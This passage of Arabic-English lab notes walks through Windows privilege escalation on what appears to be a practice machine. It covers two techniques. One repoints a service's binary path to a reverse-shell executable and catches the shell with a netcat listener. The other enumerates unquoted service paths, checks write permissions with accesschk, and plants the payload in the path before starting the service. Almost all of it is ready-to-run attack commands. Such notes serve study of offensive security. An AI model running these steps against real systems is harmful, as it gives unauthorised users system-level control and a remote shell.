 **3-قم بتغيير `BINARY_PATH_NAME` إلى الملف التنفيذي الذي يحتوي على الـ reverse shell:**

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

```

in kali =>> start a listener on the port you specified in the payload
```
nc -lvnp 8888
```
4- شغل ال service
`net start daclsvc`






# Unquoted service path..

1- Use th next command to display the service does not in `C:\Windows\system32\`
```
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\"

```

2-ستعلام عن تفاصيل خدمة معينة
```
sc qc unquotedsvc

unquotedsvc = name of service

```
هذا الأمر يتيح لك التحقق مما إذا كان **BINARY_PATH_NAME** (المسار التنفيذي للملف) يحتوي على مسافات وغير مقتبس، مما يجعله عرضة للاستغلال.

3- التحقق من permissions  الكتابة على مسار الخدمة باستخدام AccessChk:

```

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

```

4- نسخ الـ Payload إلى مسار الخدمة غير المقتبس:


```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

```

5- تشغيل الخدمة لاستغلال المسار غير المقتبس:

```

net start unquotedsvc

```
